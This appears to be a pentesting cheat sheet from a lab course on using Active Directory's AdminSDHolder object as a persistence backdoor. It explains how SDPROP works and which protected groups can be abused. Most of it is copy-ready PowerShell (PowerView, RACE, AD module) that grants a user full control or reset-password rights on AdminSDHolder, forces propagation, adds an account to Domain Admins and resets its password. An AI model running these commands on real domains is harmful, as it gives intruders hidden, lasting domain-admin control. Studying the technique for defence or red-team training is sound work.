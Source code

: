 # AdminSDHolder using ACLs 

Tags: #AD #Windows #Powershell 

```bash 
- Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups ( called Protected Groups).

- Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.
```

Protected Group:

| Account Operators | Enterprise Admins            |
| ----------------- | ---------------------------- |
| Backup Operators  | Domain Controllers           |
| Server Operators  | Read-only Domain Controllers |
| Print Operators   | Schema Admins                |
| Domain Admins     | Administrators               |
| Replicator        |                              |
Well known abuse of some of the Protected Groups - All of the below can log on locally to DC:

| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups.          |
| ----------------- | ------------------------------------------------------------------------------------ |
| Backup Operators  | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators  | Run a command as system (using the disabled Browser service)                         |
| Print Operators   | Copy ntds.dit backup, load device drivers.                                           |

```bash 
- With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.

- In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.
```

## Comandos 

```powershell 
# Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
❯ Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose    


# Using ActiveDirectory Module and RACE toolkit (https://github.com/samratashok/RACE):
❯ Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose


# Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder,:
❯ Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

❯ Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

```powershell 
# Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory:
❯ Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

# For pre-Server 2008 machines:
❯ Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

```powershell 
# Check the Domain Admins permission - PowerView as normal user:
❯ Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}

# Using ActiveDirectory Module:
❯ (Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```

```powershell 
# Abusing FullControl using PowerView:
❯ Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Using ActiveDirectory Module:
❯ Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

```powershell 
# Abusing ResetPassword using PowerView:
❯ Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

# Using ActiveDirectory Module:
❯ Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
